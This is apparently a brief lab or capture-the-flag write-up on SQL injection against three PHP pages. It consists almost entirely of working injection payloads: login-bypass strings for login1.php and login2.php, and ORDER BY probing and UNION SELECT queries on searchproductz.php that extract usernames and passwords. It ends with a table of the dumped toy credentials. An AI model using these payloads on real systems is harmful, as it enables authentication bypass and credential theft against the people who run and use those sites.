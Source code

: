### login1.php

```sql
admin' -- 
```

### login2.php

```sql
admin') -- 
```

### searchproductz.php

```sql
b%' ORDER BY 5 -- //
```

```sql
' UNION SELECT 1,2,3,4,5 -- //
```

```sql
' UNION SELECT null, id, username, password, fname FROM users -- //
```

| **Name**  | **Passwords** |
|-----------|---------------|
| admin     | admin         |
| bobby     | password      |
| ramesh    | troll         |
| suresh    | troll         |
| alice     | alice1        |
| voldemort | horcrux       |
| frodo     | frodo         |
| hodor     | hodor         |
| rambo     | rhombus       |
